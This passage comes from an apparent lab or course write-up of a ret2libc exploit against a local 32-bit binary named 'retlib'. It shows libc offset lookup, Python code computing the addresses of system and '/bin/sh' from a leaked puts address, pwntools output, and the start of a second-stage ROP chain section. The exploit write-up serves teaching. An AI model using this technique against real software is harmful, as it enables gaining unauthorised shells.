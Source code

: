 ```shell
$ ldd /vagrant/assignment1/retlib
    linux-gate.so.1 =>  (0xb77d0000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7614000)
    /lib/ld-linux.so.2 (0xb77d1000)
$ ./identify /lib/i386-linux-gnu/libc.so.6
id libc6_2.19-0ubuntu6.13_i386
$ ./dump libc6_2.19-0ubuntu6.13_i386
offset___libc_start_main_ret = 0x19af3
offset_system = 0x00040310
offset_dup2 = 0x000ddd80
offset_read = 0x000dd3c0
offset_write = 0x000dd440
offset_str_bin_sh = 0x162cec
offset_setuid = 0x000b91a0
offset_puts = 0x000657e0
offset_exit = 0x00033260
```

Now, a small addition to the python script would allow us to make some important
calculations.

```python
    # Calculate the required libc functions
    libc_base = puts_libc - offset_puts
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base + offset_exit
```

Running the updated script:

```shell
$ python task1-leak.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/vagrant/assignment1/retlib': pid 9376
[*] puts@libc: 0xb76837e0
[*] libc base: 0xb761e000
[*] system@libc: 0xb765e310
[*] binsh@libc: 0xb7780cec
[*] exit@libc: 0xb7651260
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Process '/vagrant/assignment1/retlib' stopped with exit code -11 (SIGSEGV)
    (pid 9376)
[*] Got EOF while sending in interactive
```

## Second Stage Payload

Now that we have the libc addresses of `system`, `exit`, and the string
`"/bin/sh"`, we can craft a ROP chain for the second stage payload. However, we
need a way to get the second stage ROP chain executed. The simplest solution to
this is to loop back into the main function which would re-trigger the
vulnerability with the new faked stack frames.

